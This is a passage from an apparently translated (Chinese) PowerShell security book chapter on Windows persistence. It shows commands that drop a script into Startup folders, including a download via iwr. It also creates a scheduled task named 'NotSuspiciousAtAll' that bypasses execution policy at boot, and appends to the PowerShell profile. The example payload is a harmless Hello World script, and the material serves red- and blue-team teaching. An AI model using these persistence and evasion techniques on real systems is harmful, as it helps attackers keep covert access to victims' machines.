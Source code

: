 +   `$****env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup`

+   `$****env:ALLUSERSPROFILE\Microsoft\Windows\Start Menu\Programs\StartUp`

你可以直接将其下载到启动文件夹中，如下所示：

```
$path = "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup"
if( -Not (Test-Path -Path $path )) {
        New-Item -ItemType directory -Path $path
}
iwr -Uri "https://raw.githubusercontent.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/master/Chapter01/HelloWorld.ps1" -OutFile "$path\HelloWorld.ps1"
```

或者，你可以创建一个新文件并填充内容：

```
$path = "$env:PROGRAMDATA\Microsoft\Windows\Start Menu\Programs\Startup\HelloWorld.ps1"
New-Item -Path $path -ItemType File
Add-Content -Path $path -Value "Write-Host 'Hello World!'"
```

### 使用计划任务建立持久性

你想通过使用计划任务来建立持久性。

#### 解决方案

你可以使用`schtasks`来创建一个计划任务：

```
> schtasks /create /tn "NotSuspiciousAtAll" /tr "powershell.exe -ExecutionPolicy Bypass -File C:\windows\system32\HelloWorld.ps1" /sc onstart
```

`/create` 参数表示你想要创建一个新的计划任务。使用`/tn`，你可以指定任务名称。红队成员和攻击者通常会尝试选择一个不会引起怀疑且如果蓝队调查时容易被忽视的名称。使用`/tr`，你可以指定在执行该计划任务时应运行的命令；`/sc` 定义任务的执行时间。在这种情况下，任务被设置为每次系统启动时执行。

### 使用 PowerShell 配置文件建立持久性

你想通过 PowerShell 配置文件来建立持久性。此方法较难被检测到，但如果在 PowerShell 启动时指定了 `-noprofile`，你的脚本将不会运行；然而，使用此方法也意味着它只有在用户运行 PowerShell 时才会触发——而在很多情况下，用户可能永远不会运行 PowerShell。

#### 解决方案

PowerShell 支持每个用户的配置文件，这意味着每个用户都有自己的配置文件，一旦他们启动 PowerShell 会话，就会加载该配置文件。这些配置文件通常存储在 `C:\Users\<USERNAME>\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1` 下。

如果你想将内容添加到当前用户的配置文件中，可以使用 `-Path $Profile` 并添加你的脚本或命令：

+   将脚本添加到当前配置文件：

    ```
    Add-Content -Path $Profile -Value "C:\path\to\script.ps1"
    ```

+   添加命令以执行当前配置文件：
